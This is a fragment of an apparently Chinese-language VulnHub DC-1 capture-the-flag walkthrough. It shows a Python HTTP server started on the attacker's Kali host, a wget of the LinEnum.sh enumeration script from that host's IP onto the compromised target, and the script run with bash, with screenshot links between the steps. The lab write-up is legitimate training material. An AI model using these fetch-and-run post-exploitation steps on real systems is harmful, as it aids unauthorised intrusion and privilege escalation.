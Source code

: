 ```bash
python -m SimpleHTTPServer 8080
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/12.png)

```bash
wget http://192.168.141.134:8080/LinEnum/LinEnum.sh
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/13.png)

从 kali 上下好后直接运行
```bash
bash LinEnum.sh
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/14.png)
